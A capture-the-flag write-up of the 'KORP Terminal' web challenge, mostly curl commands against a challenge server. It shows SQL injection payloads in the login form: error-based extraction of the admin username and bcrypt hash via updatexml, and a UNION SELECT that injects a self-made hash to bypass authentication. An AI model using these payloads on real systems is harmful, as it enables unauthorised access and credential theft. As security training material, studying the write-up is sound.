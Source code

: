 # [Web - very easy] KORP Terminal

This challenge is a blackbox exercise: a login page with 2 fields (username, password) is presented.

Sending a single quote `'` in the `username` field leads to a SQL error: we are facing a SQL injection challenge.

```bash
$ curl -d "username=' UNION SELECT 'aaa','bbb' limit 1 -- &password=aaa" http://94.237.51.203:36049
{"error":{"message":["1222","1222 (21000): The used SELECT statements have a different number of columns","21000"],"type":"DataError"}}

$ curl -d "username=' UNION ALL SELECT 1 -- &password=aaa" http://94.237.51.203:36049
{"error":{"message":["Invalid salt"],"type":"ValueError"}}
```

Since an error is returned, we can have that error give more information using the [updatexml](https://dev.mysql.com/doc/refman/8.3/en/xml-functions.html#function_updatexml) function. That makes the rest of the challenge easier.

```bash
# returning the date, validating that output works
$ curl -d "username=admin' and updatexml(null,concat(0x0a,now()),null)-- - -- &password=aaa" http://94.237.51.203:36049
{"error":{"message":["1105","1105 (HY000): XPATH syntax error: '\n2024-03-11 14:37:27'","HY000"],"type":"DatabaseError"}}

# validating the admin username
$ curl -d "username=admin' and updatexml(null,concat(0x0a,(select username from users limit 1)),null)-- - -- &password=aaa" http://94.237.51.203:36049
{"error":{"message":["1105","1105 (HY000): XPATH syntax error: '\nadmin'","HY000"],"type":"DatabaseError"}}

# checking what type of password it is using
$ curl -d "username=admin' and updatexml(null,concat(0x0a,(select LEFT(password,30) from users limit 1)),null)-- - -- &password=aaa" http://94.237.51.203:36049
{"error":{"message":["1105","1105 (HY000): XPATH syntax error: '\n$2b$12$OF1QqLVkMFUwJrl1J1YG9u6'","HY000"],"type":"DatabaseError"}}
```

Since we've got a hashed password, and that the first error was `Invalid salt`, we can infer that inputing a known hash would help. We also know that the hash is generated by Flask. Running `python` to create a hash of a known password, here `aaa`

```python
>>> from flask import Flask
>>> from flask_bcrypt import Bcrypt
>>> app = Flask(__name__)
>>> bcrypt = Bcrypt(app)
>>> pw_hash = bcrypt.generate_password_hash('aaa')
>>> pw_hash
b'$2b$12$dedwkx93eNdeu4Jr8exKiu4u/40YrtqD/hZemQu8hZiIY4nlhc1cG'
```

Finally giving that hash to the SQL injection leads to the flag

```bash
$ curl -d "username=' UNION SELECT '\$2b\$12\$JCfotu5YX71qZq9Ljl8mEumpE1uvff1mt4YTPrYKsAT8evEu7onZG' -- &password=aaa" http://94.237.51.203:36049
HTB{t3rm1n4l_cr4ck1ng_sh3n4nig4n5}
```